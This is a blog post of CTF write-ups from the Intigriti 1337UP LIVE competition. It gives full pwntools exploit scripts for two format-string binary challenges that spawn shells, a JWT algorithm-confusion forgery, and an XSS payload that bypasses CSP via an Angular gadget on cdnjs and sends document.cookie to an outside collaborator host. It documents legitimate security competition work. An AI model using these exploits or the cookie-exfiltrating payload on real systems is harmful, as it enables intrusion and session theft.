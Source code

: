 ```yaml
---
title: 'Intigriti 1337UP LIVE CTF'
description: My write-ups for the Intigriti 1337UP LIVE, finished in 1st place with team WreckTheLine
date: 2022-03-14T00:00:00Z
---
```


We participated in the Intigriti 1337UP LIVE CTF as team WreckTheLine, in the end our team was formed only by the web players in our team because of the team size limit. 

We managed to get first place! [I even got a certificate to prove that.](/assets/images/posts/intigritiadragos.png)

![Intigriti1337UPLIVEResult](/assets/images/posts/intigriti1337uplivectf.png)

I solved a lot of challenges, but some were very easy so I'm not going to write about them.

Writeups:
* [cake - pwn](#cake)
* [bird - pwn](#bird)
* [ContactAlex - web](#contactalex)

<a name="cake"></a>
# cake - pwn

Format string bug + RWX stack. This is a nice case where we can use pwntools' FmtStr in order to quickly solve the challenge.

```python
from pwn import *
import time

context.clear(arch = 'amd64')

def exec_fmt(payload):
    p = process('./cake')
    p.sendline(b'2')
    p.sendline(payload)
    p.sendline(b'3')
    p.sendline(b'1')
    p.sendline(b'3')
    p.sendline(b'1')
    p.sendline(b'3')
    return p.recvall()

autofmt = FmtStr(exec_fmt)
offset = autofmt.offset

#p = process('./cake')
p = remote('cake.ctf.intigriti.io', 9999)

payload = fmtstr_payload(offset, {0x602018: 0x400A33})

open('payload', 'wb').write(b'2\n'+payload+b'\n3\n')

p.sendline('2')
p.sendline(payload)
p.sendline('3')

p.sendline('2')

#start = 71
#p.sendline(b' '.join(b'%' + str(i).encode() + b'$p' for i in range(start, start + 10)))

# Leak stack value
p.sendline(b'%70$p')
p.sendline('3')

p.recvuntil(b'0x')
r = p.recvline()
stack_addr = int(r,16)

shellcode = asm(shellcraft.sh())

for i in range(0, len(shellcode), 4):
    payload = fmtstr_payload(offset, {stack_addr+i: shellcode[i:i+4]})

    p.sendline('2')
    p.sendline(payload)
    p.sendline('3')


payload = fmtstr_payload(offset, {0x602018: stack_addr})
p.sendline('2')
p.sendline(payload)
# p.sendline('3')

p.interactive()
```

<a name="bird"></a>
# bird - pwn

Simple FSB to leak the stack cookie and libc, then use one_gadget to get a shell

```python
from pwn import *
import time

#sh = process('./bird')
#context.terminal = ['tmux','splitw','-h']

sh = remote('bird.ctf.intigriti.io', 7777)

payload = b'c56500c7ab26a5100d4672cf18835690c56500c7ab26a5100d4672cf18835690 %63$p %59$p'

sh.sendline(payload)

first_leak = sh.recvuntil(b'Did you hear the bird').split(b'c56500c7ab26a5100d4672cf18835690c56500c7ab26a5100d4672cf18835690 ')[1]

libc_start_main = int(first_leak.split(b' ')[0][2:], 16)
stack_cookie = int(first_leak.split(b' ')[1].split(b'\n')[0][2:], 16)

print(hex(libc_start_main))
print(hex(stack_cookie))

main_offset = 0x21BF7

one_gadget = 0x4f432

libc_base = libc_start_main - main_offset

print(hex(libc_base))

og = libc_base + one_gadget

payload = b'A' * 88 + p64(stack_cookie) + p64(0x602070) + p64(og) + b'\x00' * 120

sh.sendline(payload)

"""
gdb.attach(sh, '''
''')
"""

sh.interactive()
```

<a name="contactalex"></a>
# ContactAlex - web

First we need to craft a JWT cookie that has the username Alex. As it turns out the source code is vulnerable to this: 

[https://github.com/silentsignal/rsa_sign2n/tree/release/CVE-2016-10555](https://github.com/silentsignal/rsa_sign2n/tree/release/CVE-2016-10555)

So we just get 2 JWTs which are generated by the application and then we can retrieve the Public Key. With that we can trick the JWT parser to use HS256 instead of RS256 and it will use the public key as the key. With [https://token.dev/](https://token.dev/) we can quickly forge a JWT.

Next we have XSS, which should be easy, but the CSP made this harder.

```
Content-Security-Policy: default-src 'self'; img-src 'self' data:; style-src 'nonce-5eccb9953787c4de8452048da55d8430'; font-src https://fonts.googleapis.com/ https://fonts.gstatic.com/; object-src 'none'; base-uri 'none'; script-src 'self' https://cdnjs.cloudflare.com/ajax/libs/jquery/3.6.0/;
```

As it turns out, you can bypass CSP if https://cdnjs.cloudflare.com is whitelisted. We can then use Angular in order to get XSS.

Final payload:
```html
<script src="https://cdnjs.cloudflare.com/ajax/libs/jquery/3.6.0/..%2f..%2fangular.js/1.6.0/angular.js" /></script>

<body ng-app ng-csp>

<input autofocus ng-focus="$event.path|orderBy:'top.location.href=&#x22;//otlv0l5ql6fm6m1a6lz40uact3zunj.burpcollaborator.net/&#x22;+document.cookie'">

</body>
```